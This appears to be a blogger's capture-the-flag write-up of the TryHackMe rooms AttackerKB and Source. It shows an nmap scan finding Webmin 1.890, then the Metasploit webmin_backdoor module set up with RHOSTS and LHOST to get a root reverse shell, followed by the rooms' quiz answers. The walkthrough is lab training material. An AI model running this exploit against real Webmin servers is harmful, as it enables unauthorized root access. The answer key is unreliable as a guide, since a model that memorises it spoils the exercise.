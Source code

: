 ```yaml
---
layout: post
title: AttackerKB & Source | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-11 18:42:53 +0800'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```


 Hallå gubbar , Today i will show you how easy this boxes are in a very simple explanation both [AttackerKB](https://tryhackme.com/room/attackerkb) &  [Source](https://tryhackme.com/room/source).
 

    ![alt text](https://thelastvvv.github.io/images/posts/1/bloggg.jpg "THM")



`1 - Enumeration`

`2 - Exploitation`

`3-  Reverse shell`

`4-AttackerKB Tasks`


### 1 - Enumerationnmap scan :

```sh
$ nmap -T4 -A -v -Pn Box-ip
```
Results:



> PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| 256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_ 256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open http MiniServ 1.890 (Webmin httpd)


### 2 - Exploitation
Source and AttackerKB:

One of the attached files of vulnerability is metasploit module that will allow us reverse shell the box so let open Metasploit


[https://github.com/rapid7/metasploit-framework/pull/12219]()


using this command:

```sh
$ msfconsole
```



then search "the exploit name or version"


![alt text](https://thelastvvv.github.io/images/posts/1/attack.png "search")


then choose 
```sh
$ unix/webapp/webmin_backdoor
```

![alt text](https://thelastvvv.github.io/images/posts/1/attavk.png "metasploit")



> RHOSTS : Box-ip

>RPORT: Box-port

>LHOST: Your-ip

>SSL : 1


### 3- Reverse shell


![alt text](https://thelastvvv.github.io/images/posts/1/reverse.png "shell")


volia session opened we are root so let check the hints and hunt the flags

User Flag:

![alt text](https://thelastvvv.github.io/images/posts/1/flag1.png "flag1")


Root Flag:


![alt text](https://thelastvvv.github.io/images/posts/1/flagroot.png "flag2")

### 4-AttackerKB Tasks:

Task 2 -Discovering the Lay of the Land :

From Nmap results we can find all our answers .....

Answers: 
`2-Webmin`
`3-1.890`
`4- from cert bellow figure it out`
### Task 3 - learning to fly:
Just explore Attackerkb then we will be able to answer the following "important to copy directly from Attackerkb site 

Answers: 
`3 1.890` 
`4 supply chain`
 `5 aug172019`
`6 githubfileinthetitle`



See you next time .....
